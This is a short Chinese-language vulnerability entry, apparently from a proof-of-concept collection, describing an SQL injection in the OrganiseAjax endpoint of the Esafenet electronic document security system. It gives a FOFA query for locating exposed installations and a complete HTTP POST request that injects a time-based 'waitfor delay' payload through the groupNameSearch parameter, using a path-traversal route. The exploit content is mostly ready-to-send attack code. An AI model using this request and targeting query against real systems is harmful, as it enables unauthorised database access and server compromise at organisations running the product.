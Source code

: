 # 亿赛通电子文档安全管理系统OrganiseAjax存在SQL注入漏洞

亿某通电子文档安全管理系统` OrganiseAjax`接口的`groupNameSearch`参数处对传入的数据没有预编译和充足的校验，导致该接口存在SQL注入漏洞，恶意攻击者可能通过该漏洞获取服务器信息或者直接获取服务器权限

## fofa

```yaml
app="亿赛通-DLP"
```

## poc

```javascript
POST /CDGServer3/js/../OrganiseAjax HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=search&groupNameSearch=-1'waitfor delay '0:0:5'--
```

